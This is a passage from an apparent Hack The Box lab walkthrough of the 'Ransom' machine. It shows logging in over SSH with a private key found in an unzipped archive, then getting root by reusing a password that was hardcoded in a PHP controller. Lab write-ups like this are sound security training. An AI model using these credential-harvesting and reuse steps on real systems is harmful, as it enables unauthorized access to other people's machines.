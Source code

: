 ## Shell as HTB

Inside `.ssh` I found a private ssh key `id_rsa`, and I also found a username in `authorized_keys`

```
┌──(root💀kali)-[~/htb/ransom/unzipped/.ssh]
└─# ls    
authorized_keys  id_rsa  id_rsa.pub
                                                                                                                                                                                       
┌──(root💀kali)-[~/htb/ransom/unzipped/.ssh]
└─# cat authorized_keys        
ssh-rsa [snip]/Cq413N6/M= htb@ransom
```

We can use the username and the private key to ssh into the machine

```
┌──(root💀kali)-[~/htb/ransom/unzipped/.ssh]
└─# ssh -i id_rsa htb@10.10.11.153                                
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Mar 17 03:28:49 2022 from 10.10.14.8
htb@ransom:~$
```

# Root

Looking around the file structure the PHP application running on port 80 had its files inside `/srv/prod`. I looked around the app for quite a while until I found `app/Http/Controllers/AuthController.php` inside I found the password `UHC-March-Global-PW!`. Password reuse is a common thing that many people do so I tried to `su -` with that password and to my surprise that worked!

```
htb@ransom:/srv/prod$ su -
Password: UHC-March-Global-PW!
root@ransom:~# id
uid=0(root) gid=0(root) groups=0(root)
```
